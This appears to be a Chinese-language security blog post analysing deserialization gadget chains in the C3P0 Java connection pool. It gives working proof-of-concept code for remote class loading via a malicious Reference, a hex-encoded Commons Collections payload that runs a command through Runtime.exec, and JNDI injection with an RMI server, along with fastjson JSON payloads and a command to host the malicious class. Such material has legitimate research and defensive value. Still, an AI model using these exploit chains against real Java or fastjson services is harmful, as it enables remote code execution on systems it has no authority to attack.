










# 0x01 What Is C3P0

C3P0是JDBC的一个连接池组件，类似的连接池组件还有Druid、DBCP

> 在执行JDBC的CRUD操作时，若每次操作都建立一次新的数据库连接到销毁，开销就太大了。因此通过连接池（Connection Pool）复用创建好的连接。
>
> **C3P0是**一个开源的JDBC连接池，它实现了数据源和JNDI绑定，支持JDBC3规范和JDBC2的标准扩展。 使用它的开源项目有Hibernate、Spring等。

# 0x02 Way To Attack

## URLClassLoader - http base

* `PoolBackedDataSourceBase#writeObject`

首先尝试序列化当前对象的`connectionPoolDataSource`属性，若抛出`NotSerializableException`异常，即不能序列化，则catch这个异常，并用`ReferenceIndirector.indirectForm`处理后再序列化。





调用`connectionPoolDataSource`属性的`getReference()`，返回后作为参数封装进`ReferenceSerialized`对象，而`ReferenceSerialized`实现的接口`IndirectlySerialized`继承了`Serializable`接口，因此`ReferenceSerialized`可被序列化。



* `PoolBackedDataSourceBase#readObject`



若传进来的序列化对象是上文的`ReferenceSerialized`，这里调用其`getObject`方法



跟进`ReferenceableUtils.referenceToObject()`



ref是之前序列化时候可控的，可以通过URLClassLoader加载并实例化远程类。

# 0x03 Weave POC

要让`connectionPoolDataSource`这个属性是个实现`ConnectionPoolDataSource`、`Referenceable`（后面要调用它的`getReference()`再拿去封装到`ReferenceSerialized`）这两个接口的类。重写`getReference()`方法，让其`factoryLoaction`指向恶意类所在服务器地址。

```java
public static class evil implements ConnectionPoolDataSource, Referenceable{

    public Reference getReference() throws NamingException {
        return new Reference("calc", "calc", "http://127.0.0.1:9999/");
    }
	// override
}
```

作为`PoolBackedDataSourceBase`（这个类本身有实现`Serializable`接口）的`connectionPoolDataSource`属性，由于evil类没有实现`Serializable`接口，无法反序列化。在调用`writeObject`时，调用`evil`的`getReference()`方法，返回值封装进可序列化的`ReferenceSerialized`对象。

```java
import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;

import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.*;
import java.lang.reflect.Field;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;

public class Test {
    public static void main(String[] args) throws Exception {
        PoolBackedDataSourceBase base = new PoolBackedDataSourceBase(false);
        Class clazz = Class.forName("com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase");
        Field cp = clazz.getDeclaredField("connectionPoolDataSource");
        cp.setAccessible(true);
        cp.set(base, new evil());

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(base);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        Object o = (Object) ois.readObject();

    }

    public static class evil implements ConnectionPoolDataSource, Referenceable{

        public Reference getReference() throws NamingException {
            return new Reference("calc", "calc", "http://127.0.0.1:9999/");
        }

        public PooledConnection getPooledConnection() throws SQLException {
            return null;
        }

        public PooledConnection getPooledConnection(String user, String password) throws SQLException {
            return null;
        }

        public PrintWriter getLogWriter() throws SQLException {
            return null;
        }

        public void setLogWriter(PrintWriter out) throws SQLException {

        }

        public void setLoginTimeout(int seconds) throws SQLException {

        }

        public int getLoginTimeout() throws SQLException {
            return 0;
        }

        public Logger getParentLogger() throws SQLFeatureNotSupportedException {
            return null;
        }
    }
}
```



# 0x04 Summary

PoolBackedDataSource在序列化时可以传入一个任意Reference类，在PoolBackedDataSource反序列化时该Reference类中指定的对象会被URLClassLoader远程加载实例化。

# 0x05 hex base 不出网利用

`WrapperConnectionPoolDataSourceBase#setuserOverridesAsString`

看到set方法应该立刻联想到fastjson

`WrapperConnectionPoolDataSourceBase`是抽象类，关注其子类`WrapperConnectionPoolDataSource`

`setUserOverridesAsString`最后走到`C3P0ImplUtils.parseUserOverridesAsString( this.getUserOverridesAsString());`



首先对`userOverridesAsString`进行截取，转为`byte[]`，再调用`SerializableUtils.fromByteArray(serBytes)`，进行反序列化操作

## POC

```java
import com.mchange.v2.c3p0.WrapperConnectionPoolDataSource;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class getPayLoad {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer(
                        "invoke", new Class[]{Object.class, Object[].class}, new Object[]{Runtime.class, null}),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        Map map = new HashMap();
        Map lazyMap = LazyMap.decorate(map, transformerChain);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test");
        Map expMap = new HashMap();
        expMap.put(tiedMapEntry, "xxx");

        lazyMap.remove("test");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(expMap);
        oos.close();

        String ser = "HexAsciiSerializedMap:" + bytesToHexString(baos.toByteArray()) + "p";
        WrapperConnectionPoolDataSource exp = new WrapperConnectionPoolDataSource();
        // Thread.sleep(1000*3);
        exp.setUserOverridesAsString(ser);
    }

    public static byte[] toByteArray(InputStream in) throws IOException {
        byte[] classBytes;
        classBytes = new byte[in.available()];
        in.read(classBytes);
        in.close();
        return classBytes;
    }

    public static String bytesToHexString(byte[] bArray) {
        int length = bArray.length;
        StringBuffer sb = new StringBuffer(length);

        for(int i = 0; i < length; ++i) {
            String sTemp = Integer.toHexString(255 & bArray[i]);
            if (sTemp.length() < 2) {
                sb.append(0);
            }

            sb.append(sTemp.toUpperCase());
        }
        return sb.toString();
    }
}
```

配合fastjson使用：

> {
>     "a": {
>         "@type": "java.lang.Class",
>         "val": "com.mchange.v2.c3p0.WrapperConnectionPoolDataSource"
>     },
>     "b": {
>         "@type": "com.mchange.v2.c3p0.WrapperConnectionPoolDataSource",
>         "userOverridesAsString": "HexAsciiSerializedMap:hexEXP;"
>     }
> }

# 0x06 JNDI

也是在fastjson或jackson环境下使用，jdk8u191以下（支持LDAP-JNDI注入）

* `JndiRefConnectionPoolDataSource#setJndiName`最后会调用`JndiRefDataSourceBase#setJndiName`，设置`JndiRefDataSourceBase`类的jndiName属性。

* `JndiRefConnectionPoolDataSource#setLoginTimeout` =>`WrapperConnectionPoolDataSource#setLoginTimeout`
  =>  `JndiRefForwardingDataSource#setLoginTimeout`  => `inner()`  =>  `dereference()`

`JndiRefForwardingDataSource`继承自`JndiRefDataSourceBase`，可获取其jndiName



## POC

```java
public static void main(String[] args) throws Exception {
    JndiRefConnectionPoolDataSource exp = new JndiRefConnectionPoolDataSource();
    exp.setJndiName("rmi://127.0.0.1:1099/evil");
    exp.setLoginTimeout(1);
}
```

RMI服务端：

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws Exception {
        String url = "http://127.0.0.1:8080/";
        Registry r = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("calc", "calc", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        r.bind("evil",referenceWrapper);
    }
}
```

calc.class挂web服务，`python -m http.server 8080`



配合fastjson使用

> {
>  "a":{
>      "@type":"java.lang.Class",
>      "val":"com.mchange.v2.c3p0.JndiRefForwardingDataSource"
>  },
>  "b":{
>      "@type":"com.mchange.v2.c3p0.JndiRefForwardingDataSource",
>      "jndiName":"rmi://127.0.0.1:1099/evil",
>      "loginTimeout":0
>  }
> }

在fastjson，jackson等环境下，调用JndiRefConnectionPoolDataSource类的jndiname，logintimeout属性setter方法，向jndiname传入恶意RMI服务器地址，然后调用logintimeout的setter方法使受害机去lookup设置好的jndiname中的恶意地址，造成JNDI注入。